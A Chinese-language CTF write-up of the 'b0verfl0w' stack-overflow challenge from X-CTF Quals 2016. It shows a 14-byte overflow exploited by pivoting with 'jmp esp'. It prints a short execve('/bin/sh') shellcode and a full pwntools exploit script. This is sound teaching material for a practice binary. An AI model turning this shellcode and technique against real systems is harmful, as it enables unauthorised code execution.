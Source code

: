 ```yaml
---
layout: post
title: CTF-PWN实例6（X-CTF Quals 2016 - b0verfl0w）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/6
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例6（X-CTF Quals 2016 - b0verfl0w）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF%20Quals%202016%20-%20b0verfl0w

## 程序保护：

```shell
$ checksec b0verfl0w
```

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

没有开启任何保护。

## 程序信息：

```shell
$file b0verfl0w
b0verfl0w: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9f2d9dc0c9cc531c9656e6e84359398dd765b684, not stripped
```

动态链接。

## 解题：

### 一、IDA分析程序溢出点

IDA分析：

这里main函数只是调用了一个函数，被调用的函数内容：

```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

其所能溢出的字节就只有 50-0x20-4=14 个字节，这时候就需要更短的shellcode来利用。

```python
>>> from pwn import *
>>> len(asm(shellcraft.sh()))
44
```

pwntools生成的shellcode已经有44长度，所以肯定是不能成功利用的。这时候需要用到一个非常短的shellcode。

```c
shellcode = "\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"
```

然后将shellcode写入到栈中。控制eip指向shellcode。

### 二、编写EXP

思路：

获取到shellcode地址，程序会开启ASLR保护，地址是随机的，但是在栈上相对偏移是固定的。所以我们可以利用栈溢出对esp操作使esp指向shellcode处，然后控制程序跳转到esp处。

这里时先找到jmp esp 地址。

```shell
$ ROPgadget --binary b0verfl0w --only 'jmp|ret'  
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这时候我们需要通过减法和计算占用字节来计算shellcode的地址。

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

这时候所需要的语句：

```c
sub esp,0x28
jmp esp
```

最总exp：

```python
from pwn import *
sh = process('./b0verfl0w')
context.log_level = 'debug'
if args.G:   
    gdb.attach(sh)

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

如果不理解可以进行调试发现栈内执行步骤。

## 总结

最短shellcode积累，利用jmp esp进行程序流程控制。
